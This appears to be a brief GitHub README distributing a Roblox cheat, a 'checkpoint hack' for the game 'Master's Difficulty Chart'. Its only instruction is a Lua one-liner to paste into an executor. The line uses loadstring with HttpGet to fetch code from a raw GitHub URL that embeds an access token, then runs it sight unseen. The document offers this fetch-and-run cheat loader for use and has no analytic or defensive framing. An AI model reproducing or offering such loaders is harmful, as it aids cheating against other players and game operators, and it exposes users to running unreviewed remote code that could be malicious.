 # Dqrk's Private Game Exploits
# Current Features:
Master's Difficulty Chart - Checkpoint Hack for different stages

# Put code in executor to run.
loadstring(game:HttpGet(('https://raw.githubusercontent.com/Codersrules/dqrks-c/main/exploit.lua?token=GHSAT0AAAAAABVLC4UKFWXX2BDEU2CYIRTUYU6WMEQ')))()
